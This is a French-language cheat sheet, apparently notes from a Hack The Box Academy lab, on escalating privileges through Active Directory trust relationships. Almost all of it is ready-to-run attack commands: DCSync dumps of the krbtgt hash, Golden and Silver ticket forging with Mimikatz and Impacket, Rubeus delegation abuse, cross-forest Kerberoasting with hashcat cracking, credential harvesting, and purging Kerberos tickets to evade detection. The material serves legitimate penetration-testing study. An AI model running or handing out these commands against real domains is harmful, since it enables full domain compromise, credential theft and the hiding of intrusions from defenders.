

La chaîne d'attaque typique pour une escalade de privilèges via les relations de confiance inter-domaines est représentée ci-dessous :



## Reconnaissance des relations de confiance

### Lister les relations de confiance avec PowerView
```powershell
Get-NetDomainTrust
Get-NetForestTrust
Get-DomainTrust
```

### Lister les relations de confiance avec AD Module
```powershell
Get-ADTrust -Filter * | Select-Object Name,Direction,TrustType
```

### Lister les relations de confiance avec BloodHound
```powershell
Invoke-BloodHound -CollectionMethod Trusts -OutputDirectory .
```

### Lister les SIDs des domaines
```powershell
Get-DomainSID -Domain LOGISTICS.INLANEFREIGHT.LOCAL
```

> [!tip]
> Toujours vérifier la direction de la confiance (Inbound/Outbound) avant de tenter une escalade.

## Attaques Child → Parent

### DCSync pour récupérer le hash NTLM du KRBTGT

> [!danger]
> L'utilisation de **DCSync** génère des logs d'événements critiques (ID 4662) détectables par les EDR/SIEM.

#### Windows (**Mimikatz**)
```powershell
lsadump::dcsync /domain:LOGISTICS.INLANEFREIGHT.LOCAL /user:krbtgt
```

#### Linux (**Impacket** - **secretsdump.py**)
```bash
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

### Récupération du SID de l'Enterprise Admins Group

#### Windows (**PowerView**)
```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

#### Linux (**lookupsid.py** - **Impacket**)
```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

### Génération d'un Golden Ticket

> [!danger]
> Prérequis : Nécessite des privilèges d'administration sur le domaine source pour extraire le hash **krbtgt**.

#### **Mimikatz**
```powershell
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:<hash_krbtgt> /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

#### **ticketer.py** (**Impacket**)
```bash
ticketer.py -nthash <hash_krbtgt> -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid <SID_CHILD> -extra-sid <SID_ENTERPRISE_ADMINS> hacker
```

### Utilisation du ticket et exécution de **psexec.py**
```bash
export KRB5CCNAME=hacker.ccache
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

## Attaques par Trust Ticket (Silver Ticket inter-domaine)

Lorsqu'une relation de confiance existe, il est possible de forger un **Silver Ticket** pour un service spécifique dans le domaine distant si le hash du compte de service (ou du compte machine) du domaine distant est connu.

```bash
# Forger un ticket pour le service CIFS sur le DC distant
ticketer.py -nthash <service_hash> -domain-sid <REMOTE_DOMAIN_SID> -domain <REMOTE_DOMAIN> -spn cifs/academy-ea-dc01.inlanefreight.local hacker
```

## Abus de délégation contrainte/non-contrainte inter-domaine

L'abus de délégation permet d'emprunter l'identité d'un utilisateur sur un service distant. Si un compte dans le domaine A est configuré avec `TrustedToAuthForDelegation` vers un service dans le domaine B, une escalade est possible.

1. **Identifier les comptes avec délégation** :
```powershell
Get-DomainUser -TrustedToAuthForDelegation
```
2. **S4U2Self/S4U2Proxy** avec **Rubeus** :
```powershell
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/academy-ea-dc01.inlanefreight.local /user:svc_deleg /rc4:<hash_svc_deleg> /ptt
```

## Attaques Cross-Forest

Ces techniques s'appuient sur les concepts de **Lateral Movement Techniques** et **Kerberoasting**.

### Kerberoasting inter-forêt

#### Énumération des comptes avec SPN (**PowerView**)
```powershell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

#### Vérification des droits du compte
```powershell
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof
```

#### Lancer un Kerberoasting avec **Rubeus**
```powershell
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

#### Crack du hash avec **hashcat**
```bash
hashcat -m 13100 hash.txt wordlist.txt --force
```

### Recherche d'admins externes dans un autre domaine
```powershell
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
```

### Connexion via PSSession
```powershell
Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

## Exploitation des SID History

> [!warning]
> Condition critique : Le **SID History** nécessite que le flag 'SID History' soit activé et que l'objet cible ait des permissions suffisantes.

### Vérification des SID History avec **PowerView**
```powershell
Get-DomainUser -Identity jjones -Properties sidHistory
```

## Détection et contournement des protections (Tiered Administration)

La stratégie de **Tiered Administration** (ou PAW - Privileged Access Workstations) vise à isoler les comptes à privilèges. Le contournement repose sur l'identification de sessions persistantes sur des machines de niveau inférieur (Tier 2/3).

- **Recherche de sessions privilégiées** : Utiliser `Invoke-BloodHound` avec `--CollectionMethod Session` pour identifier les admins connectés sur des machines compromises.
- **Credential Harvesting** : Extraire les tokens de session via `lsadump::sam` ou `sekurlsa::logonpasswords` sur les machines où un admin a laissé une session active.

## Nettoyage des traces (purge des tickets Kerberos)

Pour éviter la détection lors de mouvements latéraux, il est impératif de purger les tickets Kerberos après usage.

```powershell
# Purger tous les tickets de la session courante
klist purge

# Via Mimikatz
kerberos::purge
```

## Outils Clés

| Outil | Usage principal |
| :--- | :--- |
| **PowerView** | Reconnaissance **Active Directory** |
| **Mimikatz** | Dump de hash, **Golden Ticket**, **Pass-the-Hash** |
| **Impacket** | **secretsdump**, **ticketer**, **lookupsid**, **psexec** |
| **BloodHound** | Analyse des relations de confiance |
| **Rubeus** | **Kerberoasting**, **Pass-the-Ticket** |
| **hashcat** | Crack de mots de passe |

Ces méthodes s'inscrivent dans une stratégie globale d'**Active Directory Enumeration** et de **DCSync Attack**.